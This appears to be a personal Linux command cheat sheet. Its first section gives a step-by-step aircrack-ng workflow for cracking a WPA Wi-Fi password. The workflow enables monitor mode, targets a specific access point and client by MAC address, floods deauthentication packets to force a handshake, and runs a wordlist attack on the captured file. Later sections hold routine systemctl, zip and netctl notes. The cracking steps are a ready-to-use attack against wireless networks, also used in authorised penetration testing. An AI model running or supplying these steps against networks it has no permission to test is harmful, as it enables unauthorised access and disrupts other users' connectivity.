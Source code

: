 # aircrack

- Create interface

```sh
sudo airmon-ng start wlp0s29u1u2
```

- Dump all ESSIDs, and pick one target (note bssid, essid, and channel)

```sh
sudo airodump-ng mon0
```

- Dump targeted ESSID

```sh
cd /tmp && sudo airodump-ng --channel 1 --bssid 10:9F:A9:EC:25:3F -w file-<essid> mon0
```

- Replay until get WPA handshake, note that

```sh
sudo aireplay-ng -0 10000 -a 10:9F:A9:EC:25:3F<BSSID> -c 74:F0:6D:3F:17:FA<STATION MAC> mon0
```

- Check pwd db

```sh
sudo aircrack-ng -w ~/Downloads/password-dir/1 -b 10:9F:A9:EC:25:3F<WPA handshake> file-<essid>*.cap
```

# systemctl

- scanning for new & changes
systemctl daemon-reload  

- disable auto suspended on laptop; add HandleLidSwitch=ignore in /etc/systemd/logind.conf
systemctl restart systemd-logind  

- list user units
systemctl --user list-unit-files 

- enable users units 
systemctl --user enable mpd

# zip

zip -r file.zip *

# netctl

- packages

> pacman -S wpa_actiond ifplugd
